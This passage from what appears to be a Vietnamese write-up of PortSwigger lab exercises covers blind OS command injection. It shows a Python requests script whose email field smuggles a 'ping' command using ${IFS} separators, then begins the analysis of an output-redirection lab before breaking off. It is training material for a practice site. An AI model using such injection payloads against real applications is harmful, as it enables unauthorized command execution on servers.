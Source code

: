 ```python=
    'name': 'cuong',
    'email': 'abc%40gmail.com;ping${IFS}-c${IFS}10${IFS}127.0.0.1;',
    'subject': 'abc',
    'message': 'abc',
}

response = requests.post(
    url + '/feedback/submit',
     cookies=cookies,
    data=data,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
receive_post=datetime.now()
t2=receive_post.strftime("%H:%M:%S")
print(t2)
print("time: ", receive_post-send_post)
```

![image](https://hackmd.io/_uploads/rJhqnicKa.png)

mục đích của chúng ta đã được thực hiện và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/BJ_Z_j9YT.png)

## 3. Lab: Blind OS command injection with output redirection

link: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

### Đề bài

![image](https://hackmd.io/_uploads/rkKYTiqK6.png)

### Phân tích

<ul>
    <li>Đây lại là một dạng Blind OS Command Injection. Lần này ta sẽ ghi output của command vào 1 file thuộc folder mà user hiện tại có quyền ghi w, đó là /var/www/images/. Thư mục này chính là nơi chứa các ảnh mà ứng dụng load cho các posts thông qua param filename.</li>
    <li>Đầu tiên ta vẫn vào mục feedback và gửi đi thông tin sau đó tiếp tục dùng burp suite để bắt trang feedback/submit.</li>
</ul>

![image](https://hackmd.io/_uploads/rkBo0j9Yp.png)

### Khai thác
